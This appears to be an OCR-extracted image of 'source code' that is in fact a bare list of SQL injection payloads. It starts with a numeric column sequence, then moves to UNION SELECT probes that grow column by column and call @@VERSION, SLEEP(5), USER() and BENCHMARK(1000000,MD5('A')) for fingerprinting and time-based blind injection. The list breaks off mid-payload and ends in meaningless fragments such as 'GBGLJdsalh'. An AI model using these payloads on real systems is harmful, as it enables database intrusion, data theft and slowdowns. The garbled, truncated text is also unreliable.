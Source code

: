 # abc

1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30--
 UNION SELECT @@VERSION,SLEEP(5),3
 UNION SELECT @@VERSION,SLEEP(5),USER(),4
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(10000#

# GBGLJdsalh

ro
